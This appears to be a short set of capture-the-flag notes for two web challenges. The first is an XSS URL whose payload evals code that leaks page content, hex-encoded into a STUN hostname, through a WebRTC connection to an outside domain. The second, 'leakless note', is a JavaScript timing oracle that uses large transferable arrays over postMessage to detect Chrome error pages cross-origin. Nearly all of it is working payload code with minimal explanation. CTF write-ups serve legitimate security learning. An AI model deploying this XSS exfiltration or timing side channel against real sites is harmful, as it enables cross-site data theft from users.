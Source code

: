 ```bash
https://golfjail.chals.sekai.team/?xss=%3Csvg/onload=eval(%60%27%60%2bbaseURI)%3E#';eval(decodeURIComponent('pc%20=%20new%20RTCPeerConnection({%22iceServers%22:[{%22urls%22:[%22stun:%22+document.firstChild.data.split(%22%22).map(x=%3Ex.charCodeAt(0).toString(16)).join(%22%22).substr(72, 8)+%22.%22+%2272b67c6a53.ipv6.1433.eu.org.%22]}]});pc.createOffer({offerToReceiveAudio:1}).then(o=%3Epc.setLocalDescription(o));'))
```

# leakless note

```bash
ts a timing attack, but not on the network which is crazy
im pretty sure it has to do with site isolation

// leakless note oracle
const oracle = async (w, href) => {
    const runs = [];
    for (let i = 0; i < 8; i++) {
        const samples = [];
        for (let j = 0; j < 600; j++) {
            const b = new Uint8Array(1e6);
            const t = performance.now();
            w.frames[0].postMessage(b, "*", [b.buffer]);
            samples.push(performance.now() - t);
            delete b;
        }
        runs.push(samples.reduce((a,b)=>a+b, 0));
        w.location = href;
        await sleep(500); // rate limit
        await waitFor(w);
    }
    runs.sort((a,b) => a-b);
    return {
        median: median(runs.slice(2, -2)),
        sum: runs.slice(2, -2).reduce((a,b)=>a+b,0),
        runs
    }
}
oracle: use large uint8arrays as transferrables over postMessage, for some reason the timing is different on chrome error page than not
```